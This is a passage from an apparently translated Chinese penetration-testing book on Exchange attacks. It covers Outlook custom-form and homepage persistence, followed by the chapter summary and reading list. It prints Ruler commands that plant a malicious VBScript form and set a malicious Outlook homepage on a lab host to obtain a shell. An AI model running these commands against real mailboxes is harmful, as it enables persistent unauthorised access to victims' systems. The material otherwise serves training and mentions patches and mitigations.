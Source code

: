 接下来，我们将讨论 Outlook 表单[31]。它是在微软杀死规则向量后引入的。其思想是我们可以创建一个内部包含 VBScript 代码的自定义表单。幸运的是，这个脚本引擎与 VBA 宏脚本引擎是分开的，因此禁用宏并不会起作用。为了远程触发表单，我们需要发送一个正确的邮件消息类型。我们需要在 Outlook 中创建相同的表单。这项技术是实现持久化的好方法。即使受害者更改了密码，我们也可以只发送一封电子邮件并获得我们的 Shell。要运行此攻击，我们可以再次使用标尺：

```
./ruler -e vinegrep@windomain.local form add --suffix evil --input /tmp/command.txt --send
./ruler -e vinegrep@windomain.local form send --prefix evil
```

2017 年 9 月，当 Outlook 的 KB4011091 更新[32]发布时，定制表单脚本向量被摧毁。

有一个第三个向量需要讨论，称为 Outlook 主页[33]。主页允许我们通过指定一个 URL，当文件夹被打开时加载并显示该 URL，来自定义任何文件夹的默认视图。代码执行来自**OutlookViewCtl** CLSID（**0006F063-0000-0000-C000-000000000046**），它作为对象嵌入并可以在**CreateObject**方法中使用。我们需要做的就是创建我们自定义的主页，并借助标尺为用户设置它：

```
./ruler -u vinegrep -p 'Qwerty123!' -d windomain.local -e vinegrep@windomain.local -k --url https://192.168.56.106/autodiscover/autodiscover.xml --verbose --debug homepage add --url http://192.168.56.106/homepage.xhtml
```

命令执行的结果可以在以下截图中看到：

![图 1.23 – 设置 Outlook 主页](img/B18964_01_23.jpg)

图 1.23 – 设置 Outlook 主页

微软在 2017 年 10 月通过 KB4011162 更新[34]完全删除了这个向量的主页功能。减少攻击面是解决问题的最佳方法。

在本节中，我们讨论了针对 Exchange Server 的不同攻击向量。为了缓解密码喷洒攻击，必须使用多因素认证（MFA）和适当的登录监控。所有 RCE 漏洞迟早都会收到补丁。还需要修补客户端软件，因为它可以被滥用进行横向移动和持久化。

# 总结

在本章中，我们为未来的活动部署了我们的实验室。我们很幸运地有两个杰出的免费项目可用于培训和研究。之后，我们讨论了 Active Directory 的攻击链、攻击目标环境的关键步骤，以及什么是 OpSec。然后，我们深入探讨了假设漏洞模型，展示了需要克服的重大障碍，以实现稳定的初步访问。我们讨论了三种针对 Exchange Server 的主要攻击向量：凭证访问、Zero2Hero 漏洞利用和客户端软件滥用。在下一章中，我们将探讨防御规避主题的皮毛。这是一个广泛且深入的话题，最终你会发现它归结为规则*了解* *你的工具*。

# 进一步阅读

以下资源供进一步学习，将帮助你更深入了解本章中涵盖的攻击：

1.  Splunk 攻击范围 – [`github.com/splunk/attack_range`](https://github.com/splunk/attack_range)

1.  Orange Cyberdefense GOADv2 – [`github.com/Orange-Cyberdefense/GOAD`](https://github.com/Orange-Cyberdefense/GOAD)
